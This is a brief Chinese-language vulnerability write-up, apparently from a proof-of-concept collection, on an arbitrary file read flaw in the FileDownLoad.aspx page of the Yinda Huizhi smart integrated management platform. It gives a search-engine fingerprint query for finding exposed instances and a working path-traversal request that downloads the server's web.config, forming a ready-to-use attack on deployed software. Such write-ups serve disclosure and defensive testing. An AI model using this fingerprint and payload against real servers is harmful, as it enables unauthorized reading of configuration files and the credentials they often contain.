 # 银达汇智 智慧综合管理平台 FileDownLoad.aspx 任意文件读取漏洞

## 漏洞描述

银达汇智 智慧综合管理平台 FileDownLoad.aspx 存在任意文件读取漏洞，通过漏洞攻击者可下载服务器中的任意文件

## 漏洞影响

```
银达汇智 智慧综合管理平台
```

## 网络测绘

```
"汇智信息" && title="智慧综合管理平台登入"
```

## 漏洞复现

登陆页面

![image-20220525150952244](images/202205251509315.png)

验证POC

```
/Module/FileManagement/FileDownLoad.aspx?filePath=../../web.config
```

![image-20220525151256759](images/202205251512861.png)